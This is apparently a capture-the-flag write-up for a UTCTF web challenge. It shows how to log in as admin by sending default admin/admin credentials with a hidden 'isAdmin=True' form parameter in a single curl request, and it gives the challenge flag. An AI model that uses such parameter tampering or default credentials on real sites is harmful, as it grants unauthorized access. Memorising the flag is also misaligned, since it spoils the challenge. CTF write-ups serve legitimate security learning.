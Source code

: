 #### Challenge:

Ok sorry but just *one* more time. HQ really needs your help. These Web D-EVIL-opers keep changing their site and preventing us from logging in. It seems the one thing they _won't_ change is their username and password \*rolls eyes\*. Can you figure out how to log in?

_FYI, you do *not* need to do the 'Login as Admin' sequence in order, and later parts are not necessarily harder than earlier ones._

[app.py](./app.py ":ignore") `http://web1.utctf.live:2363`

---

#### Solution:

- The form contains hidden param `isAdmin` that needs to be set to `True`.

```bash
curl 'http://web1.utctf.live:2363/'  --data-raw 'username=admin&pwd=admin&isAdmin=True'
```

---

<details><summary>FLAG:</summary>

```
utflag{omg_why_not_upd8_pwd!?!}
```

</details>
<br/>

